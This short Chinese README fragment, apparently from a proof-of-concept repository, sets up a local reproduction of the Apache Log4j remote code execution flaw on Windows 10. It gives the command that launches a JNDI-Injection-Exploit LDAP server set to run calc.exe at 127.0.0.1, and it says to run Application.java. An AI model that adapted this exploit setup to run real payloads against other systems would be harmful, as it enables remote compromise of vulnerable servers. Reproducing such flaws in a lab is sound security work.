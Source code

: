 参考：https://www.ddosi.org/apache-log4j-rce  
测试环境：windows10  
启动ldap服务：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A "127.0.0.1"  
运行：Application.java  